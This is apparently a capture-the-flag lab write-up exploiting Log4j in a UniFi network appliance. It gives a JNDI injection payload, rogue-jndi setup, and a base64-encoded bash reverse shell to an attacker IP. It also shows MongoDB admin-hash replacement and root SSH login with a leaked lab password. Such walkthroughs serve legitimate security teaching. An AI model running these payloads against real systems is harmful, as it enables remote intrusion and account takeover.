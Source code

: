 ![Screenshot 2023-11-06 145544.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/image.png)

# Unified (Log4j)

## Introduction

This writeup explores the effects of exploiting Log4J in a very well known network appliance monitoring system called `"UniFi"`. This box will show you how to set up and install the necessary packages and tools to exploit UniFi by abusing the Log4J vulnerability and manipulate a POST header called remember , giving you a reverse shell on the machine. You'll also change the administrator's password by altering the hash saved in the MongoDB instance that is running on the system, which will allow access to the administration panel and leads to the disclosure of the administrator's SSH password.

## Scanning

```jsx
nmap -sC -sV -v 10.129.179.23
```

![Screenshot 2023-11-06 145544.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_145544.png)

![Screenshot 2023-11-06 145620.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_145620.png)

The scan reveals port 8080 open running an HTTP proxy. The proxy appears to redirect requests to port 8443 , which seems to be running an SSL web server. We take note that the HTTP title of the page on port 8443 is `" UniFi Network "`.

![Screenshot 2023-11-06 150611.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_150611.png)

Upon accessing the page using a browser we are presented with the UniFi web portal login page and the version number is `6.4.54` . If we ever come across a version number it’s always a great idea to research that particular version on Google. A quick Google search using the keywords UniFy 6.4.54 exploit reveals an article that discusses the in-depth exploitation of the `CVE-2021-44228` vulnerability within this application.

### #Using Web proxy (BurpSuite)

First, we attempt to login to the page with the credentials `test:tes`t as we aren’t trying to validate or gain access. The login request will be captured by BurpSuite and we will be able to modify it.
Before we modify the request, let's send this HTTPS packet to the Repeater module of BurpSuite by
pressing `CTRL+R` .

### #Expoitation

We have to input our payload into the remember parameter. Because the POST data is being sent as a JSON object and because the payload contains brackets `{}` , in order to prevent it from being parsed as another JSON object we enclose it inside brackets " so that it is parsed as a string instead

```jsx
${jndi:ldap://{Tun0 IP Address}/whatever}
```

**JNDI** is the acronym for the Java Naming and Directory Interface API . By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

**LDAP** is the acronym for Lightweight Directory Access Protocol , which is an open, vendor-neutral,
industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389 .

![Screenshot 2023-11-06 153546.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_153546.png)

After we hit "send" the "Response" pane will display the response from the request. The output shows us an error message stating that the payload is invalid, but despite the error message the payload is actually being executed

Let's proceed to starting tcpdump on port `389` , which will monitor the network traffic for LDAP connections.

![Screenshot 2023-11-06 153523.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_153523.png)

The tcpdump output shows a connection being received on our machine. This proves that the application is indeed vulnerable since it is trying to connect back to us on the LDAP port `389.`

We will have to install `Open-JDK` and `Maven` on our system in order to build a payload that we can send to the server and will give us Remote Code Execution on the vulnerable system.

```jsx
sudo apt update
sudo apt install openjdk-11-jdk -y
java -version
```

Open-JDK is the Java Development kit, which is used to build Java applications. Maven on the other hand is an Integrated Development Environment (IDE) that can be used to create a structured project and compile our projects into jar files .

These applications will also help us run the `rogue-jndi` Java application, which starts a local LDAP server and allows us to receive connections back from the vulnerable server and execute malicious code.

Once we have installed Open-JDK, we can proceed to install Maven. But first, let’s switch to root user.

```jsx
sudo apt-get install maven
mvn -v
```

Once we have installed the required packages, we now need to download and build the Rogue-JNDI Java application.

Let's clone the respective repository and build the package using Maven.

```jsx
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

This will create a `.jar` file in `rogue-jndi/target/` directory called RogueJndi-1.1.jar . Now we can construct our payload to pass into the `RogueJndi-1-1.jar` Java application.

To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding issues.

```jsx
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' |
base64
```

![Screenshot 2023-11-06 161035.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_161035.png)

After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of the `--command` option and your `tun0` IP address to the `--hostname` option.

```jsx
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|
{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```

```jsx
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuOTUvNDU0NSAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.95"
```

![Screenshot 2023-11-06 161605.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_161605.png)

Now that the server is listening locally on port 389 , let's open another terminal and start a Netcat listener to capture the reverse shell.

```jsx
nc -lvnp 4545
```

Going back to our intercepted POST request, let's change the payload to ${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat} and click Send .

![Screenshot 2023-11-06 161828.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_161828.png)

Once we receive the output from the Rogue server, a shell spawns on our Netcat listener and we can upgrade the terminal shell using the following command.

```jsx
script /dev/null -c bash
```

![Screenshot 2023-11-06 162238.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_162238.png)

From here we can navigate to /home/Michael/ and read the user flag.

![Screenshot 2023-11-06 162419.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_162419.png)

## #Privilege Escalation

The article states we can get access to the administrator panel of the UniFi application and possibly extract SSH secrets used between the appliances. First let's check if MongoDB is running on the target system, which might make it possible for us to extract credentials in order to login to the administrative panel.

```jsx
ps aux | grep mongo
```

![Screenshot 2023-11-06 162733.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_162733.png)

We can see MongoDB is running on the target system on port `27117` .

Let's interact with the MongoDB service by making use of the mongo command line utility and attempting to extract the administrator password. A quick Google search using the keywords UniFi Default Database shows that the default database name for the UniFi application is `ace` .

```jsx
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

![Screenshot 2023-11-06 163039.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_163039.png)

### #To change the administrator Password

```jsx
mkpasswd -m sha-512 Password1234
$6$sbnjIZBtmRds.L/E$fEKZhosqeHykiVWT1IBGju43WdVdDauv5RsvIPifi32CC2TTNU8kHOd2ToaW8fIX7XX
M8P5Z8j4NB1gJGTONl1
```

Let's proceed to replacing the existing hash with the one we created.

```jsx
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```

```jsx
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$HoifIPjl1sJ01orq$sQ9ql4XotUG6xiRMPVcITYPgznTlfxeQhGIp4Ley8JV7psNIv0U4IxbgGDJjH2DKPUi3ntwFCbkCnn7vIk55M1"}})'
```

![Screenshot 2023-11-06 163518.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_163518.png)

Let's now visit the website and log in as `administrator` . It is very important to note that the username is case sensitive.

![Screenshot 2023-11-06 163730.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_163730.png)

Navigate to `settings -> site` and scroll down to find the SSH Authentication setting. SSH authentication with a root password has been enabled.

![Screenshot 2023-11-06 163946.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_163946.png)

The page shows the root password in plaintext is `NotACrackablePassword4U2022` . Let's attempt to authenticate to the system as root over SSH.

```jsx
ssh root@10.129.179.23
```

![Screenshot 2023-11-06 164329.png](Unified%20(Log4j)%20f60930bf5d12420cb715e54fce034d5a/Screenshot_2023-11-06_164329.png)

The connection is successful and the root flag can be found in `/root` .